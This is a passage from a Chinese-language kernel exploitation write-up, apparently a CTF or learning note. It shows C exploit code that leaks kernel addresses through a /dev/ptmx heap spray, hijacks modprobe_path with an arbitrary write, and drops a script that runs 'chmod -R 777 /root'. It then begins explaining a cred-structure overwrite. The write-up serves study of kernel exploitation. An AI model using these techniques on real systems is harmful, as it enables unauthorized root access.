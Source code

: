 ```c
  for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  read(global_fd, buf, 0x500);
  kernel_base = *(uint64_t *)&buf[0x418] - OPS_OFFSET;
  printf("[+] kernel base: 0x%lx\n", kernel_base);
  g_buf = *(uint64_t *)&buf[0x438] - 0x438;
  printf("[+] heap base: 0x%lx\n", g_buf);

  for (int i = 0; i < sizeof(mal_path); i += 4 * sizeof(char)) {
    AAW32(modprobe - base + kernel_base + i, *(uint64_t *)&mal_path[i]);
  }

  puts("[*] triggering modprobe");

  system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/getshell.sh");
  system("cat /tmp/getshell.sh");
  system("chmod +x /tmp/getshell.sh");
  system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
  system("chmod +x /tmp/pwn");
  system("/tmp/pwn"); // trigger modprobe_path

  close(global_fd);

  //   for (int i = 0; i < SPRAY_NUM; i++) {
  //     close(spray[i]);
  //   }

  return 0;
}
```

这个exp并没有直接提权，而是更改了root文件夹的属性，我尝试在这个exp中直接写入脚本来完成提权，但是modprobe_path虽然被劫持且执行成功了，但是实际情况与直接执行脚本仍有不同，不能很好的直接提权。

### cred结构体重写

在拥有AAW和AAR的能力的前提下，可以将某个进程的cred中的各个ID写为0（最高权限）

由于驱动和内核共享内核堆，那么就可以考虑利用AAR来搜寻目标cred，然后结合使用AAW来修改cred。

首先是关于这个cred结构体，它的定义非常的长，这里截取里面关键的一部分放出：

```c
	const struct cred __rcu		*cred;

#ifdef CONFIG_KEYS
	/* Cached requested key. */
	struct key			*cached_requested_key;
#endif

	/*
	 * executable name, excluding path.
	 *
	 * - normally initialized begin_new_exec()
	 * - set it with set_task_comm()
	 *   - strscpy_pad() to ensure it is always NUL-terminated and
	 *     zero-padded
	 *   - task_lock() to ensure the operation is atomic and the name is
	 *     fully updated.
	 */
	char				comm[TASK_COMM_LEN];
```